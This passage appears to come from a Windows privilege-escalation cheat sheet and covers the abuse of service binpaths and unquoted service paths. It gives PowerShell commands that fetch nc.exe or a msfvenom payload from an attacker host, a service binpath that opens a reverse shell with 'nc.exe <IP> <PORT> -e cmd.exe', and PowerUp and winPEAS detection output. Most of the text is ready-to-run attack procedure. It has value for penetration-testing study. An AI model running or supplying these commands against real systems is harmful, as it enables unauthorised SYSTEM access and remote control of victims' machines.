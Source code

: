     # Victim
    powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/nc.exe', '.\nc.exe')
    sc config <SERVICENAME> binpath= "<PATH>\nc.exe <IP> <PORT> -e cmd.exe"
    sc start <SERVICENAME>
    or 
    net start <SERVICENAME>
    ```

##### Unquoted service paths
- Detection
  - 
  ```
  powershell -exec bypass -command "& { Import-Module .\PowerUp.ps1; Invoke-AllChecks; }"

  [*] Checking for unquoted service paths...

  ServiceName    : unquotedsvc
  Path           : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
  ModifiablePath : @{Permissions=AppendData/AddSubdirectory; ModifiablePath=C:\;IdentityReference=NT AUTHORITY\Authenticated Users}
  StartName      : LocalSystem
  AbuseFunction  : Write-ServiceBinary -Name 'unquotedsvc' -Path <HijackPath>
  CanRestart     : True

  ServiceName    : unquotedsvc
  Path           : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
  ModifiablePath : @{Permissions=System.Object[]; ModifiablePath=C:\; IdentityReference=NT AUTHORITY\Authenticated Users}
  StartName      : LocalSystem
  AbuseFunction  : Write-ServiceBinary -Name 'unquotedsvc' -Path <HijackPath>
  CanRestart     : True
  ```

- or
  - 
  ```
  winPEAS.exe

  [+] Interesting Services -non Microsoft-(T1007)

  unquotedsvc(Unquoted Path Service)[C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe] - Manual - Stopped - No quotes and Space detected
  ```

- Exploitation
  - 
  ```
  # Attacker
  msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > Common.exe
  sudo python -m SimpleHTTPServer 80
  sudo nc -lvp <PORT>

  # Victim
  cd "C:\Program Files\Unquoted Path Service\"
  powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/Common.exe', '.\Common.exe')
  sc start unquotedsvc
  ```

